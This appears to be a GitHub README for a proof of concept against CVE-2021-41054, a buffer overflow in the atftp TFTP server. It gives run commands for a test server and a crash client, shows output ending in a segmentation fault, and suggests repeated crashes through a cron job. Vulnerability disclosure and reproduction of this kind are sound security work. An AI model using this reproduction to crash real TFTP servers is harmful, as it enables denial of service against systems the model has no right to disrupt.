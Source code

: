 ## [CVE-2021-41054](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-41054)
![](https://github.com/nu11secur1ty/CVE-mitre/blob/main/CVE-2021-41054/docs/Screenshot%202021-10-15%20122055.png)

## Description:
tftpd_file.c in atftp through 0.7.4 has a buffer overflow because buffer-size handling does not properly consider the combination of data, OACK, and other options.
A malicious user in network layer 2 can execute a malicious file to bring down the server, every time when this will be possible! 
Or he can create a malicious cron job to do this, every time when the cron will execute it.

## Idea -by: 
- Martin Dummer

## Author of the PoC-client and TestServ.sh automation
- @nu11secur1ty

## Reproduce:

- Run `TestServ.sh`

```bash 
bash TestServ.sh
```
- Output:

```bash 
Oct 15 12:14:06 nu11secur1ty-dev atftpd[3645.140540916002560]: Advanced Trivial FTP server started (0.7)
Oct 15 12:14:06 nu11secur1ty-dev atftpd[3645.140540916002560]:   running in daemon mode on port 2000
Oct 15 12:14:06 nu11secur1ty-dev atftpd[3645.140540916002560]:   logging level: 7
Oct 15 12:14:06 nu11secur1ty-dev atftpd[3645.140540916002560]:      trace enabled
Oct 15 12:14:06 nu11secur1ty-dev atftpd[3645.140540916002560]:   directory: tmp/
Oct 15 12:14:06 nu11secur1ty-dev atftpd[3645.140540916002560]:   user: root.root
Oct 15 12:14:06 nu11secur1ty-dev atftpd[3645.140540916002560]:   log file: /dev/stdout
Oct 15 12:14:06 nu11secur1ty-dev atftpd[3645.140540916002560]:   not forcing to listen on local interfaces.
Oct 15 12:14:06 nu11secur1ty-dev atftpd[3645.140540916002560]:   server timeout: Not used
Oct 15 12:14:06 nu11secur1ty-dev atftpd[3645.140540916002560]:   tftp retry timeout: 5
Oct 15 12:14:06 nu11secur1ty-dev atftpd[3645.140540916002560]:   maximum number of thread: 100
Oct 15 12:14:06 nu11secur1ty-dev atftpd[3645.140540916002560]:   option timeout:   enabled
Oct 15 12:14:06 nu11secur1ty-dev atftpd[3645.140540916002560]:   option tzise:     enabled
Oct 15 12:14:06 nu11secur1ty-dev atftpd[3645.140540916002560]:   option blksize:   enabled
Oct 15 12:14:06 nu11secur1ty-dev atftpd[3645.140540916002560]:   option multicast: enabled
Oct 15 12:14:06 nu11secur1ty-dev atftpd[3645.140540916002560]:      address range: 239.255.0.0-255
Oct 15 12:14:06 nu11secur1ty-dev atftpd[3645.140540916002560]:      port range:    1758
```
- Run `PoC-client.sh`

```bash
bash PoC-client.sh
```
- Output:

```bash
Trace mode on.
Option blksize = 8
Option timeout = 3
sent RRQ <file: tmp/nu11secur1ty.txt, mode: octet <timeout: 3, blksize: 8>>
timeout: retrying...
```
-------------------------------------------------------------------------------------------------------

## Test Output:

- `(core dumped)` /usr/sbin/atftpd

```bash
Oct 15 12:10:50 nu11secur1ty-dev atftpd[3276.140024667366976]: timeout option -> 3
Oct 15 12:10:50 nu11secur1ty-dev atftpd[3276.140024667366976]: blksize option -> 8
Oct 15 12:10:50 nu11secur1ty-dev atftpd[3276.140024667366976]: sent OACK <timeout: 3, blksize: 8>
TestServ.sh: line 8:  3276 Segmentation fault      (core dumped) /usr/sbin/atftpd --user=$(id -un) --group=$(id -gn) --daemon --no-fork --trace --logfile=/dev/stdout --verbose=7 --port 2000 tmp
Trace mode on.
Option blksize = 8
Usage: connect host-name [port]
Not connected.
```

## Proof:
[href](https://streamable.com/9xhbhv)

## Source:
[href](https://github.com/nu11secur1ty/CVE-mitre/tree/main/CVE-2021-41054)
